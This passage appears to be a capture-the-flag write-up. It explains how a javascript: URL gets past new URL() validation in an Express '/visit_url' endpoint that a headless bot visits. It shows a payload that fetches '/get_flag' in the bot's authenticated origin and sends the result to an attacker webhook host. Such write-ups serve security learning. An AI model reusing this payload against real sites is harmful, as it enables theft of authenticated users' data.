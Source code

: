 
##  What Went Wrong – `javascript:` URL Bypass

### Vulnerable Endpoint:

```js
app.post('/visit_url', csrfProtection, (req, res) => {
  const { url } = req.body;

  if (!url || typeof url !== 'string') {
    return res.status(400).json({ error: 'Bad Request: URL is required.' });
  }

  try {
    new URL(url);
    visit(url) // ← passes even for javascript:
```

- They use `new URL(url)` to validate input...
    
- But **JavaScript accepts `javascript:` URLs** as valid `URL` objects!
    

```js
new URL("javascript:alert(1)") //  Valid
```

- There's **no check** like:
    
    ```js
    if (url.startsWith("javascript:")) return error;
    ```
    

---

###  So What Can we Do?

we submit this payload:

```js
POST /visit_url
Content-Type: application/x-www-form-urlencoded

url=javascript:fetch('/get_flag').then(r=>r.text()).then(d=>location.href='https://your.webhook.site/?flag='+encodeURIComponent(d))
```

---

###  Why It Works:

1. The **bot first visits `/`**, gets authenticated with a valid `token` cookie (`SameSite=Lax`).
    
2. Then it **calls `window.open("javascript:...")`** with our payload.
    
3. The `javascript:` runs inside a new tab, **but still in the same origin** (`http://127.0.0.1`), so:
    